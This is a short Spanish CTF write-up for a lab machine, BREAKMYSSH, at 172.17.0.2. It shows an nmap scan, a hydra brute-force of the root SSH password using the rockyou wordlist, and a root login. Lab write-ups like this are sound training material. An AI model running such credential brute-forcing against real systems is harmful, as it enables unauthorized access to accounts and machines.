 ```yaml
---
description: 'Dificultad: Muy fácil'
---
```


# Máquina BREAKMYSSH

Fecha: 14 de Marzo de 2025

Objetivo: 172.17.0.2

***

## Fase de reconocimiento

Comenzamos haciendo un ping a la máquina para ver si nos contesta y está encendida.

```
ping 172.17.0.2
```

Ok, la máquina está encendida, podemos comenzar la fase de reconocimiento.

Proseguimos con un nmap para ver los puertos, sistema operativo, etc. Ejecutamos el comando nmap:

```
nmap -p- -O -v 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>Salida del comando NMAP</p></figcaption></figure>

Vemos que solo nos ha arrojado que únicamente esta máquina tiene abierto el puerto 22.

Si hacemos directamente un ataque con hydra, podemos terminar, pero quería aprovechar para instalar Metasploit.

```
 hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption><p>Salida del comando hydra</p></figcaption></figure>

## Fase de Post-Explotación

Ahora vendría la fase donde nos conectamos a la máquina por SSH para verificar que realmente hemos obtenido permisos de root.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption><p>Conexión como usuario root</p></figcaption></figure>

Y efectivamente así termina esta máquina sin escalada de privilegios.





